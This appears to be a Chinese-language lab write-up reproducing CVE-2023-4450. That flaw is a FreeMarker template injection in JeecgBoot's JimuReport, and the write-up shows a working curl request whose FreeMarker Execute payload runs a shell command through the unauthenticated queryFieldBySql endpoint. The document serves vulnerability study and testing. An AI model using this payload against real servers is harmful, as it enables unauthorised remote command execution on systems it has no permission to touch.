 # JeecgBoot JimuReport 模板注入导致命令执行漏洞（CVE-2023-4450）

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一。

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

引用:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## 漏洞环境

执行如下命令启动 3.5.3 版本的 JeecgBoot 后端：

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 查看JimuReport页面。

## 漏洞利用

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload：

```bash
curl --location 'http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}'
```

![](1.png)
